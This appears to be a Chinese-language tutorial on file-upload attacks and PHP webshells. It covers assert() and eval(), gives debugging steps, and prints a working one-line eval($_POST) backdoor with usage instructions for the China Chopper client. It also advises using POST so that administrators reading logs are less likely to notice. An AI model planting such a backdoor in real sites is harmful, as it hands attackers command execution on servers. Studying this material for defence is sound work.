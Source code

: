 ## 0X00

定义：通过文件上传可执行的文件或者脚本，就会导致网站被控制/服务器沦陷…

/////////////////////////////////

## 一句话木马

### Webshell

```
webshell 就是以网页文件形式存在的一种命令执行环境，也可以将其称做为一种网页后门。

顾名思义，`web`的含义是显然需要服务器开放 web 服务，`shell` 的含义是取得对服务器某种程度上操作权限。webshell 常常被称为入侵者通过网站端口对网站服务器的某种程度上操作的权限。由于 webshell 其大多是以动态脚本的形式出现，也有人称之为网站的后门工具。

一句话木马、小马、大马都可以叫 webshell。
//一句话木马就是只需要一行代码的木马，短短一行代码，就能做到和大马相当的功能。
//小马体积小，容易隐藏，隐蔽性强,不过功能少，一般只有上传等功能.
//大马功能丰富，体积大。
```

```
webshell 调试三部曲：
1. 把函数写在 php 文件中，看能否执行
2. 写成 $_GET[''] 方式传入命令，看能否执行
3. 写成 $_POST['']方式传入命令，能能否执行命令
```

assert()和eval()

```php
assert()函数用于检查一个表达式的结果是否为true，如果表达式的结果为false，则会触发一个致命错误。它主要用于调试和测试目的。在开启断言（assertion）的情况下，攻击者可能利用assert()来执行任意的PHP代码
//给 assert() 函数传入字符串参数，这个特性在 7.1开始 禁用，在 8.0 版本时会被彻底删除。
//但是可以传入phpinfo(),system('command')，因为这是函数而不是字符串
    
eval()函数用于将一个字符串作为PHP代码进行解析和执行。这意味着可以在运行时动态生成并执行代码。
```



```php
PHP-webs hell.php
<?php @eval($_POST['shell']);?>
//首先存在一个名为shell的变量，shell的取值为HTTP的POST方式。Web服务器对shell取值以后，然后通过eval()函数执行shell里面的内容。
//超全局变量方括号内必须打引号。
为什么使用post?
/*
1.存在长度限制：特定的浏览器及服务器会对通过get方法提交的字符串有一定的限制。
2.是当网站管理员查log的时候，会看到明文的get请求参数，容易被发现,相比之下，post请求敏感内容不容易被发现。所以最好把get方法换成post方法。
*/

//利用
访问一句话木马文件，然后post传入shell=phpinfo();
菜刀：http://127.0.0.1/webshell.php 密码shell
```

